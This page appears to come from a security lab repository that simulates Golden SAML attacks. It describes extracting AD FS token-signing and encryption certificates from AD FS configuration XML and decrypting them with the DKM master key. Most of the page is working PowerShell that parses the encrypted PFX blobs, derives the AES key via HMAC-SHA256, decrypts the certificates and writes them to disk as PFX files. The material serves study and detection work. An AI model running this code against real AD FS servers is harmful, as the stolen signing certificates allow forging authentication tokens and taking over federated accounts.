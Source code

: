 # Export AD FS Certificates via DKM Master Key

A threat actor could use the `AD FS configuration settings` to extract sensitive information such as AD FS certificates (encrypted) and get the path to the AD FS DKM container in the domain controller. The `AD FS DKM master key` can then be retrieved from the AD container and used to decrypt AD FS certificate.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [References](#references)

## Preconditions

* Input:
    * AD FS Configuration Settings
    * AD FS DKM Master Key

## Simulation Steps

### Extract AD FS Token Signing Certificate

```PowerShell
[xml]$xml=$settings
$encTokenSigningPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$encPfxBytes | Format-Hex
```

![](../../../../images/labs/GoldenSAML/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_token_signing_cert.png)

### Extract AD FS Encryption Certificate

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```

![](../../../../images/labs/GoldenSAML/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_encryption_cert.png)


### Decrypt Certificates

```PowerShell
$key = '<ADFS-DKM-KEY>'

$certs = [ordered]@{}
$certs["signing"] =    $encTokenSigningPfx
$certs["encryption"] = $encEncryptionPfx

# Iterate over certificate objets
foreach ($certType in $certs.Keys) {
    $encPfxBytes=[System.Convert]::FromBase64String($certs[$certType])
    $guid=        $encPfxBytes[8..25]  # 18 bytes
    $KDF_oid=     $encPfxBytes[26..36] # 11 bytes
    $MAC_oid=     $encPfxBytes[37..47] # 11 byte
    $enc_oid=     $encPfxBytes[48..58] # 11 bytes
    $nonce=       $encPfxBytes[59..92] # 34 bytes
    $iv=          $encPfxBytes[93..110] # 18 bytes
    $ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
    $cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

    # Create the label
    $label = $enc_oid + $MAC_oid

    # Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
    # As the key size is only 16 bytes (128 bits), no need to loop.
    $hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
    $hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
    $decryptionKey = $hmacOutput[0..15]
    Write-Verbose "Decryption key:"
    Write-Verbose "$($decryptionKey|Format-Hex)"
    # Create a decryptor and decrypt
    $Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
    $Crypto.Mode="CBC"
    $Crypto.KeySize = 128
    $Crypto.BlockSize = 128
    $Crypto.Padding = "None"
    $Crypto.Key = $decryptionKey
    $Crypto.IV = $iv[2..17]
    $decryptor = $Crypto.CreateDecryptor()

    # Create a memory stream and write the cipher text to it through CryptoStream
    $ms = New-Object System.IO.MemoryStream
    $cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
    $cs.Write($ciphertext,0,$ciphertext.Count)
    $cs.Close()
    $cs.Dispose()

    # Get the results
    $decryptedBytes = $ms.ToArray()
    $ms.Close()
    $ms.Dispose()

    $CertificatePath = "C:\ProgramData\ADFS_$($certType)_$(get-date -format yyyy-MM-ddTHHmmssff).pfx"
    $decryptedBytes | Set-Content $CertificatePath -Encoding Byte

    Get-item $CertificatePath
}
```

## Output

* AD FS Encryption Certificate
* AD FS Token Signing Certificate

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)